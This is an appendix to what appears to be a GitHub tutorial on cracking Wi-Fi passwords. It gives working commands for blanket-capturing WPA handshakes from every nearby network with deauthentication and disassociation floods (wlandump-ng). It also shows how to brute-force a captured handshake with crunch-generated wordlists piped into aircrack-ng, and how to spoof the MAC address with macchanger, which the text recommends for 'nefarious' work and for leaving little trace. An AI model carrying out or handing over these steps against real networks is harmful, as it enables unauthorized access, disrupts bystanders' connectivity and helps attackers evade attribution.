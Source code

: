 # Appendix

After the initial release of this tutorial, several people from various corners of the internet reached out with comments and suggestions. Two of the most interesting are alternative methods for capturing 4-way handshakes using `wlandump-ng` and programatically generating wordlists for Aircrack-ng using `crunch`. In an effort two keep the original tutorial short and sweet, I've included information about their wonderful suggestions here, and added a few of my own.

## Capturing handshakes with `wlandump-ng`

[@enilfodne](https://github.com/enilfodne) has [informed me](https://github.com/brannondorsey/wifi-cracking/issues/15) that the hashcat community has a prefered tool for capturing WPA 4-way handshakes, called `wlandump-ng`. This tool belongs to a suite of hashcat related utilities called [hcxtools](https://github.com/ZerBea/hcxtools) developed by [ZerBea](https://github.com/ZerBea), and has notable perks over `airdump-ng`. `wlandump-ng` allows you to blanket capture handshakes from every nearby network at once, hopping Wi-Fi channels in order to increase collection.


```bash
# clone hcxtools
git clone https://github.com/ZerBea/hcxtools
cd hcxtools

# build and install
# you will likely need to apt install the required dependencies:
# https://github.com/ZerBea/hcxtools#requirements
make
sudo make install

# blanket death connected clients from all nearby access points and listen for re-connections
# replace wlan0 with your wireless device name
wlandump-ng -i wlan0 -o capture.cap -c 1 -t 60 -d 100 -D 10 -m 512 -b -r -s 20 

# once you've got a capture file, you can convert it to the hashcat capture format with
cap2hccapx.bin capture.cap capture.hccapx
```

`wlandump-ng` command-line args (use `-h` flag for full list):

- `-c 1`: start in the 2.4Ghz range from channel 1 (will go to 13)
- `-t 60`: stay on each channel for 60s (experiment with lower values, default is `5`)
- `-d 100`: send deauth every 100 beacon frames
- `-D 10`: send disassosciation packets every 10 beacons frames
- `-m 512`: internal ringbuffer size, use 512 for low resource machines
- `-b`: activate beaconing to last 10 probe requests
- `-r`: reset deauthentication/disassosciation counter if hop loop is on channel 1
- `-s 20`: display 20 status lines

**WARNING:** Using this is likely illegal in most places. See [here](https://github.com/ZerBea/hcxtools#warning) for more info.

`wlandump-ng` also offers the option to run in passive mode without transmitting any deauth/disassociation frames. This is recommended if you are are sensitive to disrupting the network activity of those around you (which you should be). The trade-off is that you will capture far fewer handshakes, but this method makes the capture undetectable.

```bash
# run with default settings in passive mode
wlandump-ng -i wlan0 -o capture.cap -p -s 20 
```

## Generating wordlists with `crunch`

`crunch`is a tool to generate wordlists using combinations of a given string or pattern. We can use crunch to generate a password list on-the-fly and pipe it to `aircrack-ng` without having the wordlist saved to disk.

```bash
# install crunch
sudo apt-get install crunch
```

To get an idea of how crunch works, run it from the command-line (be ready to press `ctrl-c` once it starts spewing passwords):

```bash
# syntax 8 8 are min-length and max-length of password to generate
# 01234567890 is the set of characters to combine/permute to construct the passwords
crunch 8 8 0123456789
```

```
Crunch will now generate the following amount of data: 900000000 bytes
858 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100000000 
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
...
99999999
```

We can pipe the output of `crunch` as the input to `aircrack-ng`, using the passwords that it generates as our wordlist. Here we use the `crunch` special rule character `%` to denote a digit. This command attempts to crack WPA passwords that are 10-digit phone numbers (using 102GB of numbers generated by crunch on-the-fly): 

```bash
# we can also use -t "@^%," to use pattern '@' - replaced with lowercase ',' - replaced with uppercase
# '%' - replaced with numbers and '^' - is replaced with special chars
# *************** don't forget '-' at the end
crunch 10 10 -t "%%%%%%%%%%" | aircrack-ng -a2 capture.cap -b 58:98:35:CB:A2:77 -w -
```

Thanks to [@hiteshnayak305](https://github.com/hiteshnayak305) for the introduction to `crunch` and including this update as a [PR](https://github.com/brannondorsey/wifi-cracking/pull/17).

## Macchanger

Whenever you are doing anything remotely nefarious with Wi-Fi, it is a good idea to spoof your the MAC address of your Wi-Fi device so that any network traffic that gets recorded can't be tied to serial assigned by your device manufacturer.

This is trivial with `macchanger`:

```bash
# download MAC changer
sudo apt-get install macchanger

# bring the device down
sudo ifconfig wlan0 down

# change the mac
# -A pics a random MAC w/ a valid vendor
# -r makes it truly random
# -p restores it to the original hardware MAC
sudo macchanger -A wlan0

# bring the device back up
sudo ifconfig wlan0 up
```

If you've got multiple cards, it might also be a good idea to do this to all of them. Or better yet, bring unused wireless interfaces down whenever you are attempting to capture handshakes, to leave as little trace as possible. Note that spoofing changes do not persist across reboots.
